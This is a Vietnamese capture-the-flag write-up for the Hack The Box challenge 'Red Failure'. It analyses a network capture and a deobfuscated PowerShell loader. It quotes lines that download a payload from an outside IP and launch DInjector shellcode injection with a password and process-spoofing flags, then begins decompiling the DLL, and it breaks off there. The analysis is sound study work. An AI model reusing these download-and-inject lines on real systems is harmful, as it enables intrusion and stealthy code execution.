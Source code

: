 ### Description 
> During a recent red team engagement one of our servers got compromised. Upon completion the red team should have deleted any malicious artifact or persistence mechanism used throughout the project. However, our engineers have found numerous of them left behind. It is therefore believed that there are more such mechanisms still active. Can you spot any, by investigating this network capture?

### Link challenge 
> https://app.hackthebox.com/challenges/Red%2520Failure

### Solution 
- Mở file pcap được cho, sau khi phân tích, ta thấy rằng sau khi tải file poweshell xuống, lần lượt 1 file .dll và 1 file tên 9tVI0 cũng được tải xuống 
- ![image](image/28.PNG)
- Phân tích từ file powershell trước 
<details><summary>
Src file ps1
</summary></details>

- Có vẻ mã nguồn file này đã bị xáo trộn bằng phương pháp obfucation
- Mình sẽ sử dụng công cụ `PowerDecode-2.7.2` để xoá các byte rác và cho code dễ đọc hơn 

<details><summary>
Đây là output
</summary></details>

- Tại dòng này `${dAtA} = (IWR -UseBasicParsing "http://${B}:${C}/${D}").ContEnT` sẽ tải file `user32.dll` xuống 
- Dòng này tạo 1 consoles `${cMD} = "${A} /sc:http://${B}:${C}/${E} /password:${F} /image:${G} /pid:${H} /ppid:${I} /dll:${J} /blockDlls:${K} /am51:${L}"` thực thi file vừa tải, nó đã được phân tích thành `currentthread /sc:http://147.182.172.189:80/9tVI0 /password:z64&Rx27Z$B%73up /image:C:\Windows\System32\svchost.exe /pid:11276 /ppid:0 /dll:msvcp_win.dll /blockDlls:True /am51:True` dựa vào các biến đã cho, với đầu vào là password:z64&Rx27Z$B%73up  và 1 file 9tVI0
- Tiếp theo đó chúng thực thi class DInjector.Detonator 

```
${clASs} = ${asSEm}.GetType.Invoke('DInjector.Detonator', ${flAgS})
${EnTRY} = ${ClASS}.GetMethod.Invoke('Boom', ${fLAGS})
```
- Bây giờ ta tiến hành điều tra file `user32.dll`
- Đựa vào đầu ra của virus total xác định file được complie bằng NET
- ![ơdhdhd](image/29.PNG)
- Dùng công cụ `ilspy` để decomplie nó
- Tập trung vào hàm DInjector.Detonator.Boom 
```
// DInjector, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// DInjector.Detonator
```